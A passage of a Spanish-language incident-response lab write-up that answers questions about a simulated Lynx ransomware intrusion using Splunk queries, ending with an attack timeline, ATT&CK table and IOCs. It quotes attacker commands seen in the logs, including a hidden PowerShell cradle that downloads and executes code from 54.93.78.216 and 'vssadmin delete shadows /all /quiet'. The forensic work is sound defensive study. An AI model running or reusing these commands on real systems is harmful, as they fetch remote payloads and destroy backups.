- **Técnica ATT&CK:** T1021.001 (*Remote Services: Remote Desktop Protocol*), T1078.002 (*Valid Accounts: Domain Accounts*).

#### P14

> **Pregunta:** Para mantener el acceso a largo plazo dentro del dominio, el atacante creó una cuenta fraudulenta diseñada para parecerse mucho a una cuenta legítima; ¿cómo se llamaba esta cuenta de dominio no autorizada?

> **Respuesta:** welsam

**Análisis: cómo he llegado**

- **Qué busco:** cuentas creadas (Event ID 4720) por domain.admin, la cuenta que controla el atacante.

- **Consulta o comando:**

```spl
index=main EventCode=4720 SubjectUserName="domain.admin"
| table _time Computer SubjectUserName TargetUserName
| sort _time
```

- **Resultado:**



A las 03:15:18, en DC01, domain.admin crea la cuenta welsam.

- **Por qué esa es la respuesta:** es la única cuenta creada por domain.admin, en el controlador de dominio, así que es una cuenta de dominio. Se crea 14 minutos después de entrar al DC por RDP (03:01) y antes de saltar a los servidores de copias y ficheros (03:20). Con qué cuenta legítima se confunde está sin confirmar.
- **Técnica ATT&CK:** T1136.002 (*Create Account: Domain Account*), T1036 (*Masquerading*).

#### P15

> **Pregunta:** Poco después de la creación de la cuenta, se observó una actividad de escalada de privilegios que implicaba cambios en la membresía del grupo; ¿A qué grupo de dominio privilegiado se agregó la cuenta no autorizada?

> **Respuesta:** Domain Admins

**Análisis: cómo he llegado**

- **Qué busco:** altas de la cuenta welsam en grupos de seguridad (Event ID 4728, 4732 y 4756) hechas por domain.admin.

- **Consulta o comando:**

```spl
index=main EventCode IN (4728, 4732, 4756) SubjectUserName="domain.admin" MemberName="*welsam*"
| table _time EventCode Computer SubjectUserName TargetUserName MemberName
| sort _time
```

- **Resultado:**



03:15:31 domain.admin añade `cn=welsam maslew` a Domain Admins y a las 03:15:51 a RDP Users. Los dos con 4728 en DC01.

- **Por qué esa es la respuesta:** en estos eventos el grupo está en TargetUserName y la cuenta añadida en MemberName. De los dos grupos, Domain Admins es el privilegiado: da control total sobre el dominio. RDP Users solo permite conectarse por escritorio remoto. Los dos cambios llegan justo después de crear la cuenta (03:15:18).
- **Técnica ATT&CK:** T1098.007 (*Account Manipulation: Additional Local or Domain Groups*).

#### P16

> **Pregunta:** Antes de la implementación del ransomware, se establecía el acceso a la infraestructura de archivos para maximizar el impacto; ¿en qué momento (UTC) se inició una sesión RDP exitosa en FILE-SERVER-01?

> **Respuesta:** 2026-02-02 04:17:07

**Análisis: cómo he llegado**

- **Qué busco:** el inicio de sesión por escritorio remoto (Event ID 4624, LogonType 10) de domain.admin en FILE-SERVER-01.

- **Consulta o comando:**

```spl
index=main EventCode=4624 TargetUserName="domain.admin" LogonType=10 Computer="FILE-SERVER-01*" earliest="02/02/2026:02:14:00"
| table _time Computer TargetUserName IpAddress LogonType
| sort _time
```

- **Resultado:**



A las 04:17:07 domain.admin abre sesión RDP (LogonType 10) en FILE-SERVER-01 desde 10.10.11.59, el controlador de dominio.

- **Por qué esa es la respuesta:** el LogonType 10 es la sesión de escritorio remoto. Los dos LogonType 3 de antes (04:16:59 y 04:17:03) son la autenticación previa de RDP. Las horas de este Splunk están en UTC. El atacante llega al servidor de ficheros desde el DC, no desde PC01.
- **Técnica ATT&CK:** T1021.001 (*Remote Services: Remote Desktop Protocol*), T1078.002 (*Valid Accounts: Domain Accounts*).

#### P17

> **Pregunta:** ¿Qué ruta URI HTTP se solicitó para la descarga de la segunda etapa en FILE-SERVER-01?

> **Respuesta:** /b

**Análisis: cómo he llegado**

- **Qué busco:** procesos en FILE-SERVER-01 (Sysmon Event ID 1) con una URL en la línea de comandos.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 Computer="FILE-SERVER-01*" CommandLine="*http*"
| table _time Computer ParentImage Image CommandLine
| sort _time
```

- **Resultado:**



A las 04:37:54 en FILE-SERVER-01, `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://54.93.78.216/b'))"`.

- **Por qué esa es la respuesta:** es el mismo cradle que en PC01, contra el mismo servidor del atacante, pero con otra ruta: /a en PC01 y /b aquí. La ruta URI es lo que va detrás del servidor. Llega 20 minutos después de entrar por RDP (04:17:07). La otra fila es Internet Explorer abriendo `http://share/`, una dirección interna.
- **Técnica ATT&CK:** T1059.001 (*PowerShell*), T1564.003 (*Hidden Window*), T1105 (*Ingress Tool Transfer*).
  
#### P18

> **Pregunta:** Como parte de las operaciones previas al cifrado, se apuntaron deliberadamente a los mecanismos de recuperación del sistema; ¿Qué utilidad integrada de Windows se utilizó para eliminar Volume Shadow Copies?

> **Respuesta:** vssadmin.exe

**Análisis: cómo he llegado**

- **Qué busco:** procesos (Sysmon Event ID 1) con `shadow` en la línea de comandos, y en qué equipo se ejecutaron.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 CommandLine="*shadow*"
| table _time Computer ParentImage Image CommandLine
| sort _time
```

- **Resultado:**

En BACKUP-SERVER-01, desde PowerShell:
04:13:48 `vssadmin.exe delete shadows /all /quiet`
04:14:02 `vssadmin.exe delete shadows /for=C: /quiet`
04:14:35 `vssadmin.exe list shadows`
04:14:39 `vssadmin.exe list shadows /for=C:`

- **Por qué esa es la respuesta:** vssadmin.exe borra todas las instantáneas sin pedir confirmación y luego comprueba que no queda ninguna. Lo hace en el servidor de copias de seguridad, 3 minutos antes de entrar por RDP al servidor de ficheros (04:17:07).
- **Técnica ATT&CK:** T1490 (*Inhibit System Recovery*).

#### P19

> **Pregunta:** Durante el análisis de la actividad de ejecución de ransomware, el linaje del proceso reveló un proceso responsable del cifrado "binario de ransomware"; ¿cuál es la ruta completa del archivo de este proceso?

> **Respuesta:** C:\Users\domain.admin\Documents\system recovery.exe

**Análisis: cómo he llegado**

- **Qué busco:** el proceso que crea ficheros de forma masiva después de entrar al servidor de ficheros, y que deja notas de rescate.

**Pasos previos**

Paso 1: stacking de creación de ficheros (Sysmon Event ID 11) por equipo y proceso desde las 04:17.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11 earliest="02/02/2026:04:17:00"
| stats count by Computer Image
| sort - count
```

Resultado del paso 1: quitando procesos de Windows, impresión, Splunk y Defender, quedan dos sospechosos. `C:\Users\domain.admin\Documents\system recovery.exe` en BACKUP-SERVER-01 (31), FILE-SERVER-01 (26) y DC01 (25), y `C:\Windows\Temp\systern.exe` en BACKUP-SERVER-01 y DC01 (2 cada uno).

Paso 2: arranque de los dos sospechosos (Sysmon Event ID 1).

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 Image IN ("*system recovery.exe", "*systern.exe")
| table _time Computer ParentImage Image CommandLine
| sort _time
```

Resultado del paso 2: solo sale systern.exe, lanzado desde explorer.exe en DC01 (03:02 a 03:05) y en BACKUP-SERVER-01 (03:22), justo después de cada entrada por RDP. El arranque de system recovery.exe no está registrado.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11 Image="*system recovery.exe"
| table _time Computer Image TargetFilename
| sort _time
```

- **Resultado:**



system recovery.exe crea README.txt en todas las carpetas de usuario en el mismo segundo: DC01 a las 04:30:57, BACKUP-SERVER-01 a las 04:31 y FILE-SERVER-01 a las 04:39:39. Justo después aparecen trabajos de impresión (.SPL) en DC01 y FILE-SERVER-01.

- **Por qué esa es la respuesta:** es el proceso que deja las notas de rescate en los tres servidores, unos 17 minutos después de borrar las copias de seguridad (04:13). systern.exe solo crea 2 ficheros por equipo y se ejecuta una hora antes, al entrar por RDP. El nombre "system recovery" imita una herramienta del sistema.
- **Técnica ATT&CK:** T1486 (*Data Encrypted for Impact*), T1036 (*Masquerading*).

#### P20

> **Pregunta:** La telemetría de creación y ejecución de archivos confirmó la presencia de un ejecutable de ransomware implementado durante el ataque; ¿Cuál es el hash SHA-256 de este binario de ransomware?

> **Respuesta:** EAA0E773EB593B0046452F420B6DB8A47178C09E6DB0FA68F6A2D42C3F48E3BC

**Análisis: cómo he llegado**

- **Qué busco:** el SHA256 de system recovery.exe en el evento de escritura del ejecutable (Sysmon Event ID 29), porque su arranque (Event ID 1) no está registrado.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=29 TargetFilename="*system recovery.exe"
| table _time Computer Image TargetFilename Hashes
| sort _time
```

- **Resultado:**

A las 04:39:21, en FILE-SERVER-01, powershell.exe escribe `C:\Users\domain.admin\Documents\system recovery.exe`. SHA256: EAA0E773EB593B0046452F420B6DB8A47178C09E6DB0FA68F6A2D42C3F48E3BC. MD5: 7E851829EE37BC0CF65A268D1D1BAA7A. IMPHASH: B236E3A7E5FEC7DF716FB0039D0FCA72.

- **Por qué esa es la respuesta:** es el evento de escritura del binario de ransomware de P19 y el campo Hashes trae su SHA256. Solo hay evento en FILE-SERVER-01. PowerShell lo escribe 18 segundos antes de las notas de rescate (04:39:39) y un minuto y medio después del cradle de /b (04:37:54). Que /b trajera el ransomware está sin confirmar.
- **Técnica ATT&CK:** T1105 (*Ingress Tool Transfer*), T1486 (*Data Encrypted for Impact*).

#### P21

> **Pregunta:** Según el hash SHA-256 recuperado, ¿a qué familia de ransomware pertenece esta muestra?

> **Respuesta:** Lynx

**Análisis: cómo he llegado**

- **Qué busco:** la familia de la muestra a partir de su SHA256 en VirusTotal.

- **Consulta o comando:** sin consulta. Busco el SHA256 de P20 (EAA0E773EB593B0046452F420B6DB8A47178C09E6DB0FA68F6A2D42C3F48E3BC) en VirusTotal.

- **Resultado:** VirusTotal la clasifica como ransomware de la familia Lynx.

- **Por qué esa es la respuesta:** es la familia que da VirusTotal para ese hash. Encaja con lo visto en los logs: borra las shadow copies antes de cifrar, deja README.txt en todas las carpetas y manda la nota a las impresoras (los .SPL de la cola de impresión).
- **Técnica ATT&CK:** T1486 (*Data Encrypted for Impact*).

## 3. Cierre

### Cadena del ataque

Todas las horas son del 2026-02-02, en UTC.

1. **01:17:00** En PC01, `michelvic` ejecuta `train.py` del proyecto `torch-inference-stack` con Python.
2. **01:17:01** Al importar la dependencia manipulada, Python lanza un PowerShell oculto con un download cradle a `http://54.93.78.216:80/a`. La primera conexión llega a las 01:17:06; en total, 13.572 conexiones a ese servidor.
3. **01:18:10** El subproceso de Jedi (`jedilsp 3.12.9`) de VS Code importa la misma dependencia y vuelve a lanzar el cradle.
4. **01:43:47** Enumera las confianzas del dominio con `nltest.exe /domain_trusts` y `/all_trusts`.
5. **01:47:22** PowerShell escribe `C:\Users\michelvic\AppData\Roaming\updlate.dll`, y a las 01:47:34 la ejecuta con `rundll32.exe` (`StartW`).
6. **01:48:39** Persistencia en la clave Run del usuario con el valor `Updater`.
7. **01:52 a 01:54** Enumera servicios y pregunta por `wsl`: intento de escalada que falla.
8. **02:02:42** Busca ficheros de despliegue y abre `C:\Windows\Panther\Unattend.xml`, con la contraseña de `domain.admin`.
9. **02:14:03** Crea la tarea programada "Chroom Updates" como `DOMAIN\domain.admin` con `-RunLevel Highest`.
10. **03:01:05** Entra por RDP a DC01 como `domain.admin` desde `10.10.6.81`. Entre 03:02 y 03:05 ejecuta `systern.exe` en DC01.
11. **03:15:18** Crea la cuenta `welsam` en DC01. A las 03:15:31 la añade a Domain Admins y a las 03:15:51 a RDP Users.
12. **03:20:40** Salta por RDP de DC01 (`10.10.11.59`) a BACKUP-SERVER-01. A las 03:22 ejecuta `systern.exe` allí.
13. **04:13:48 a 04:14:39** Borra y comprueba las Volume Shadow Copies de BACKUP-SERVER-01 con `vssadmin.exe`.
14. **04:17:07** Entra por RDP a FILE-SERVER-01 desde DC01.
15. **04:30:57** `system recovery.exe` deja `README.txt` en las carpetas de usuario de DC01, y a las 04:31 en BACKUP-SERVER-01.
16. **04:37:54** En FILE-SERVER-01 lanza un segundo cradle a `http://54.93.78.216/b`. A las 04:39:21 PowerShell escribe `system recovery.exe`, y a las 04:39:39 aparecen las notas de rescate y trabajos de impresión (.SPL).

### TTPs

| Táctica | Técnica | Evidencia que la demuestra |
| --- | --- | --- |
| Initial Access | T1195.001 Supply Chain Compromise: Compromise Software Dependencies and Development Tools | El Python de `train.py` y el subproceso de Jedi lanzan el mismo cradle al importar las librerías del proyecto |
| Execution | T1059.001 Command and Scripting Interpreter: PowerShell | Cradles con `IEX (new-object net.webclient).downloadstring(...)` en PC01 y FILE-SERVER-01 |
| Defense Evasion | T1564.003 Hide Artifacts: Hidden Window | PowerShell con `-WindowStyle Hidden` / `-w hidden` |
| Command and Control | T1105 Ingress Tool Transfer | Descargas de `/a` y `/b` desde `54.93.78.216`; PowerShell escribe `updlate.dll` y `system recovery.exe` |
| Command and Control | T1071.001 Application Layer Protocol: Web Protocols | 13.572 conexiones de PowerShell a `54.93.78.216:80` |
| Discovery | T1482 Domain Trust Discovery | `nltest.exe /domain_trusts` y `/domain_trusts /all_trusts` |
| Defense Evasion | T1218.011 System Binary Proxy Execution: Rundll32 | `rundll32.exe C:\Users\michelvic\AppData\Roaming\updlate.dll, StartW` |
| Defense Evasion | T1036.005 Masquerading: Match Legitimate Name or Location | Nombres `updlate.dll`, `Updater`, `Chroom Updates`, `system recovery.exe` y `systern.exe` |
| Persistence | T1547.001 Boot or Logon Autostart Execution: Registry Run Keys | Valor `Updater` en `HKU\...\CurrentVersion\Run` |
| Discovery | T1007 System Service Discovery | `Get-Service`, `Get-Service -Name wsl` y `Get-CimInstance Win32_Service` |
| Defense Evasion | T1027.010 Obfuscated Files or Information: Command Obfuscation | Comandos de PowerShell en `-EncodedCommand` |
| Discovery | T1083 File and Directory Discovery | `Test-Path` sobre las rutas de `unattend.xml`, `sysprep.inf` y `sysprep.xml` |
| Credential Access | T1552.001 Unsecured Credentials: Credentials In Files | Lee `C:\Windows\Panther\Unattend.xml` y luego usa la contraseña de `domain.admin` |
| Persistence | T1053.005 Scheduled Task/Job: Scheduled Task | `Register-ScheduledTask -TaskName "Chroom Updates" -User "DOMAIN\domain.admin" -RunLevel Highest` |
| Lateral Movement | T1021.001 Remote Services: Remote Desktop Protocol | 4624 con LogonType 10 de `domain.admin` en DC01, BACKUP-SERVER-01 y FILE-SERVER-01 |
| Privilege Escalation | T1078.002 Valid Accounts: Domain Accounts | Uso de `domain.admin` con la contraseña robada |
| Persistence | T1136.002 Create Account: Domain Account | 4720: `domain.admin` crea `welsam` en DC01 |
| Persistence | T1098.007 Account Manipulation: Additional Local or Domain Groups | 4728: `welsam` entra en Domain Admins y RDP Users |
| Impact | T1490 Inhibit System Recovery | `vssadmin.exe delete shadows /all /quiet` en BACKUP-SERVER-01 |
| Impact | T1486 Data Encrypted for Impact | `system recovery.exe` (Lynx) deja `README.txt` en DC01, BACKUP-SERVER-01 y FILE-SERVER-01 |

### IOCs

| Tipo | Valor | Contexto |
| --- | --- | --- |
| IP | 54.93.78.216 | Servidor del atacante: entrega las dos etapas y recibe la comunicación de PowerShell |
| URL | http://54.93.78.216/a | Primera etapa, descargada en PC01 |
| URL | http://54.93.78.216/b | Segunda etapa, descargada en FILE-SERVER-01 |
| Ruta | C:\Users\michelvic\AppData\Roaming\updlate.dll | DLL de persistencia |
| SHA256 | 0829B7E5ABE2BAA6D7D001D4B69221D273D377C5E359E7A9C44F4D7A8EB214A0 | `updlate.dll` |
| Registro | HKU\\...\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Updater | Persistencia de `updlate.dll` |
| Tarea programada | Chroom Updates | Creada con las credenciales de `domain.admin` |
| Cuenta | welsam | Cuenta de dominio creada por el atacante y añadida a Domain Admins |
| Ruta | C:\Users\domain.admin\Documents\system recovery.exe | Binario de ransomware Lynx |
| SHA256 | EAA0E773EB593B0046452F420B6DB8A47178C09E6DB0FA68F6A2D42C3F48E3BC | `system recovery.exe` (58/64 en VirusTotal) |
| MD5 | 7E851829EE37BC0CF65A268D1D1BAA7A | `system recovery.exe` |
| IMPHASH | B236E3A7E5FEC7DF716FB0039D0FCA72 | `system recovery.exe` |
| Archivo | README.txt | Nota de rescate |
| Ruta | C:\Windows\Temp\systern.exe | Ejecutado en DC01 y BACKUP-SERVER-01 tras cada entrada por RDP. Función sin confirmar |

